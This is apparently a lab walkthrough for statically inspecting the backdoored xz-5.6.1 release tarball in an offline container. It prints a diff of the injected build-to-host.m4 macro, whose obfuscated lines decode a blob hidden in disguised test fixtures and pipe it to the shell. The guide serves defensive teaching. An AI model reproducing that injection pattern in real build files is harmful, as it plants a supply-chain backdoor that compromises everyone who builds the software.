

# Lab 1 walkthrough — Inspecting the disguise (no execution)

This mirrors Lab 1 of the blog post. You will launch a disposable guest, get the
backdoored `xz-5.6.1` tarball in **offline**, and *see* the attack's artifacts —
without ever building or running anything.

> **Safety:** static inspection only. Every command here reads bytes. The Docker
> backend uses `--network none` (a true offline guarantee); the Multipass backend
> is treated as untrusted and is purged afterward. See [SECURITY.md](../SECURITY.md).

## 0. Prerequisites

```bash
make setup                     # checks deps + prints install hints
```

You need `git`, `curl`, `sha256sum`, and either Docker or Multipass.

## 1. Run the lab

```bash
make lab1 BACKEND=docker       # recommended (offline container)
# or
make lab1 BACKEND=multipass    # disposable VM
```

Under the hood:

1. **`fetch.sh` (host)** downloads `xz-5.6.1.tar.gz` from the Wayback-archived
   GitHub release asset, then **hash-verifies it against `common/ioc-hashes.txt`**.
   A mismatch hard-stops the run — the file is never trusted.
2. **`run.sh` (host)** grabs the **clean** `m4/build-to-host.m4` reference (vendored
   from pristine gnulib — see below) and launches the guest.
3. **`inspect.sh` (guest)** performs the four demonstrations and saves a log to
   `reports/`.

## 2. The supply-chain trick, in one diagram

The malicious code shipped **only in the release tarball**, never in git:



Because reviewers compared the **git** source (clean) and never the **tarball**,
the injection went unnoticed.

## 3. What `inspect.sh` shows

### (1) The `build-to-host.m4` diff

`build-to-host.m4` legitimately comes from **gnulib** and only appears in the
generated tarball — so there is no git-side copy to diff against. Lab 1 instead
diffs the tarball's file against a **pinned, pre-attack gnulib copy** (serial 3,
committed at `lab1-inspect/reference/build-to-host.upstream.m4` — see its
[PROVENANCE](../lab1-inspect/reference/PROVENANCE.md)). The injection is unmistakable:

```diff
-# build-to-host.m4 serial 3
+# build-to-host.m4 serial 30
   ...
+  gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
+  gl_path_map='tr "\t \-_" " \t_\-"'
+  gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
+  AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], ...)
```

Read that last line: a build-time macro that pipes a decoded blob straight to
`$SHELL`. A legitimate m4 macro never does this. The lab also prints a
**drift-proof** list of these malicious tokens so the lesson survives upstream churn.

### (2) The disguised "test fixtures"

```
tests/files/bad-3-corrupt_lzma2.xz     -> stage 1 (a valid .xz that carries the next stage)
tests/files/good-large_compressed.lzma -> the actual payload (not a real lzma test file)
```

A hexdump reveals the magic marker `####Hello####` sitting right inside the
"corrupt" fixture — the tell the injected `grep` searches for.

### (3) Find the marker

```bash
grep -aErl '#{4}[[:alnum:]]{5}#{4}$' <source tree>
# -> tests/files/bad-3-corrupt_lzma2.xz
```

### (4) The obfuscation — shown, never run

The `tr "\t \-_" " \t_\-"` map and the `sed | eval | … -d` pipeline are printed
verbatim. The lab **never pipes any of it to a shell**. Reading ≠ running.

## 4. Tear down

```bash
make clean
```

The Docker container auto-removes; a Multipass VM is purged. The downloaded tarball
stays in `.cache/` (gitignored) so re-runs are instant; delete `.cache/` to remove it.

---

Next: [02-detonation.md](02-detonation.md) — make the backdoor actually fire (safely).
